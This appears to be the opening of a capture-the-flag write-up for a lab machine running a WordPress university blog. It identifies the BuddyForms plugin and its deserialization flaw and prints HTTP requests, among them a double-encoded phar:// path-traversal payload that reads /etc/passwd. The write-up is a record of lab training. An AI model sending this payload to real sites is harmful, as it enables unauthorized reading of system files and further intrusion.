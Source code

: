 Bigbang is running a university blog:
![Front page of Bigbang's university blog](/assets/img/img_BigBang/Pasted%20image%2020250202203751.png)
Each time we load the page we can see a request to get `buddyforms` plugin:
```http
GET /wp-content/plugins/buddyforms/assets/js/bf-render-js-big-bang.js?ver=6.5.4 HTTP/1.1
Host: blog.bigbang.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://blog.bigbang.htb/
If-Modified-Since: Sun, 02 Feb 2025 09:37:35 GMT
If-None-Match: W/"4e6-62d2586a04667-gzip"
Priority: u=2
```
Looking around for a vulnerability we found:
[Buddyforms unauthenticated insecure serialization](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8)

Playing around with the site we can find the `buddyforms` form and see that we can upload an image.
```http
action=upload_image_from_url&url=<URL>&id=1&accepted_files=images/png
```
The [blog mentioned earlier](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8) recommends double url encoding, and so we create a request payload as so:
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.bigbang.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded

action=upload_image_from_url&url=phar%253A%252F%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd&id=1&accepted_files=image/gif
```
Here is the response we receive:
```json
```